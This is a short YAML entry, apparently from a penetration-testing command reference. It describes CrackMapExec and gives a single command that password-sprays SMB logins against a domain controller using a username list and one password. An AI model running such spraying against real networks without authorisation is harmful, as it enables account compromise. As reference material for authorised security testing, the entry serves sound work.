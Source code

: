 ```yaml
---
description: |
  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/mpgn/CrackMapExec/wiki. This command will perform password spraying over SMB against the domain controller.

  Command Reference:

  	Domain Controller IP: 10.10.10.1

  	Username List: users.txt

  	Password: password123

command: |
  crackmapexec smb 10.10.10.1 -u users.txt -p password123
items:
  - Username
services:
  - SMB
attack_types:
  - Exploitation
OS:
  - Linux
references:
  - https://github.com/mpgn/CrackMapExec
  - https://github.com/mpgn/CrackMapExec/wiki
---
```

